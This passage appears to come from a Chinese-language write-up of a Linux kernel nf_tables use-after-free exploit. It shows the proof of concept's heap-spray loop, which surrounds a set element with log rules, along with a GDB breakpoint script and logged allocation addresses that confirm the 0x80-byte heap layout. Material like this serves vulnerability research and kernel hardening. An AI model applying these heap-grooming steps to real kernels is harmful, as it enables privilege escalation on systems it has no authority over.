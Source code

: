 poc 中堆喷逻辑如下：

```c
    for (int spray = - 0x60; spray < 0x21; ++ spray) {
        if (spray == 0) {
            pwn_create_lookup_set_elem(batch, seq++, pwn_lookup_set, uaf_set_key, sizeof(uaf_set_key));
        }
        else {
            pwn_create_log_rule(batch, seq++, pwn_log_chain, log_prefix);
        }
    }
```

> 就是在 elem 前后喷几十个 rule 确保 elem 被 rule 包围

在分配 rule 和 elem 的位置下断点打印分配的地址可以确认堆喷情况

```c
def newrule_cb(bp):
    rule = get_symbol_address("rule")
    print("[new_rule] 0x{:08x}".format(rule))
    return False

newrule_bp = WrapperBp("net/netfilter/nf_tables_api.c:3526", cb=newrule_cb)

def add_set_elem_cb(bp):
    elem = get_symbol_address("elem.priv")
    print("[add_set_elem] 0x{:08x}".format(elem))
    return False

add_set_elem_bp = WrapperBp("net/netfilter/nf_tables_api.c:6154", cb=add_set_elem_cb)
```

部分日志如下

log rule 和 pwn\_set 的 elem 的堆喷布局看起来用的大小应该是 0x80

```plaintext
[new_rule] 0xffff88810dd7a300
[new_rule] 0xffff88810dd7ad00
[new_rule] 0xffff88810dd7ad80
[add_set_elem] 0xffff88810dd7a980
[new_rule] 0xffff88810dd7a280
[new_rule] 0xffff88810dd7a800
[new_rule] 0xffff88810dd7ab00
[new_rule] 0xffff88810dd7a200
[new_rule] 0xffff88810dd7a480
[new_rule] 0xffff88810dd7a380
[new_rule] 0xffff88810dd7a500
[new_rule] 0xffff88810dd7af00
[new_rule] 0xffff88810dd7a580
[new_rule] 0xffff88810dd7ae80
[new_rule] 0xffff88810dd7a900   ---> elem 前面的 rule
[new_rule] 0xffff88810dd7aa80
[new_rule] 0xffff88810dd7aa00   ---> elem 后面的 rule
[new_rule] 0xffff88810dd7ab80
```
